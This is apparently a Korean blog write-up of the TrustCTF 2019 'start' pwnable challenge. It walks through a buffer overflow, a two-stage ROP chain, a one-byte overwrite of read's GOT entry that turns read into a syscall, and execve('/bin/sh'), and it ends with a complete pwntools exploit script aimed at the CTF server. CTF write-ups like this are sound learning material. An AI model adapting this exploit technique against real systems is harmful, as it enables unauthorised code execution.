 ```yaml
---
layout: post
title: ! "[TrustCTF 2019] start Write-up"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - CTF
---
```


TrustCTF에 나왔던 가장 쉬운 `pwnable` 문제였던 start 풀이.


<!--more-->

### 문제

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic01.PNG)

간단한 BOF문제인데 read 이후 프로그램이 끝나고, write는 주지도 않는다.

같은 팀원한테 물어봐서 바보소리 듣고 read 함수 안에있는 syscall 쓰라고 해서 풀었다 헤헤..

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic02.PNG)

ROP 하라고 대놓고 가젯폭탄도 던져준다.

버퍼사이즈 빡빡하긴 한데 이게 있어서 전부 구겨넣을 수 있다.

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic03.PNG)

주어진 libc에서 read 함수 안에있는 syscall 위치를 찾는다.

### Stage 1

```python
payload1 = "A"*16
payload1 += p64(real_rbp)
payload1 += p64(pop4_ret)
payload1 += p64(0)
payload1 += p64(8)
payload1 += p64(0)
payload1 += p64(bss_addr)
payload1 += p64(read_plt)
payload1 += p64(main_addr)
#print (len(payload1))
r.send(payload1)
r.send("/bin/sh\x00")
```

bss 영역에 `/bin/sh`를 써 넣는다.

그리고 다시 main 함수로 돌아간다.

### Stage 2

```python
payload2 = "B" * 16
payload2 += p64(real_rbp)
payload2 += p64(pop4_ret)
payload2 += p64(0)
payload2 += p64(1)
payload2 += p64(0)
payload2 += p64(read_got)
payload2 += p64(read_plt)
payload2 += p64(pop4_ret)
payload2 += p64(0x3b)
payload2 += p64(0)
payload2 += p64(bss_addr)
payload2 += p64(0)
payload2 += p64(read_plt)
#print (len(payload2))
r.send(payload2)
r.send("\x7b")
```

그다음은 read got 영역을 1바이트만 쓴다. (syscall 주소, 0x7b)

이제 read가 syscall이 됬으니까 bss 영역에 쓴 `/bin/sh`를 활용해서 쉘을 따주면 된다 ^0^

### Exploit Code

```python
from pwn import *

HOST = "server.trustctf.com"
PORT = 10392
r = remote(HOST, PORT)
#r = process("./start")

pop4_ret = 0x4005EA # pop rax rdx rdi rsi
bss_addr = 0x601058
main_addr = 0x4005F2
read_got = 0x601018
read_plt = 0x4004B0
real_rbp = 0x400660

payload1 = "A"*16
payload1 += p64(real_rbp)
payload1 += p64(pop4_ret)
payload1 += p64(0)
payload1 += p64(8)
payload1 += p64(0)
payload1 += p64(bss_addr)
payload1 += p64(read_plt)
payload1 += p64(main_addr)
#print (len(payload1))
r.send(payload1)
r.send("/bin/sh\x00")

payload2 = "B" * 16
payload2 += p64(real_rbp)
payload2 += p64(pop4_ret)
payload2 += p64(0)
payload2 += p64(1)
payload2 += p64(0)
payload2 += p64(read_got)
payload2 += p64(read_plt)
payload2 += p64(pop4_ret)
payload2 += p64(0x3b)
payload2 += p64(0)
payload2 += p64(bss_addr)
payload2 += p64(0)
payload2 += p64(read_plt)
#print (len(payload2))
r.send(payload2)
r.send("\x7b")

#r.sendline("cat flag")

r.interactive()
```

쉬운 문제였지만 감을 잃지 않으려면 꾸준히 노력해야 한다는 것을 깨닫게 해 준 고마운 문제였다.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTc3MDYwMzU3XX0=
-->